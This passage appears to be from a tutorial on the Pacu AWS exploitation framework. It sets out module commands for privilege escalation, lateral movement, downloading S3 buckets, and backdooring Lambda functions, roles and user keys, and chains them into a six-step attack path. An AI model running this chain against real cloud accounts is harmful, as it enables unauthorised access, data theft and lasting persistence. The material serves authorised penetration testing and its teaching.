 #### Privilege Escalation Techniques

Once initial access is established, Pacu facilitates privilege escalation:

```bash
# Find privilege escalation paths
run iam__privesc_scan

# Exploit trust relationships
run iam__assume_roles

# Enumerate permissions
run iam__enum_permissions
```

#### Advanced Pacu Modules for Exploitation

```bash
# Privilege escalation
run iam__privesc_scan
run iam__enum_roles_for_account

# Lateral movement
run lambda__backdoor_new_roles
run ec2__start_instances_ssm_sessions

# Data exfiltration
run s3__download_bucket
```

#### Building Attack Chains

Pacu's true power comes from chaining modules into complete attack paths:

```bash
# Sample attack chain for an AWS environment

# 1. Initial reconnaissance
run iam__enum_users_roles_policies_groups
run iam__enum_permissions

# 2. Identify vulnerable services
run s3__enum
run lambda__enum

# 3. Exploit vulnerabilities
run s3__download_bucket --bucket-name sensitive-data-bucket
run lambda__backdoor_function --function-name processing-function

# 4. Escalate privileges
run iam__privesc_scan
run iam__backdoor_assume_role

# 5. Further discovery with elevated privileges
run ec2__enum
run rds__enum

# 6. Maintain access
run iam__backdoor_users_keys
```
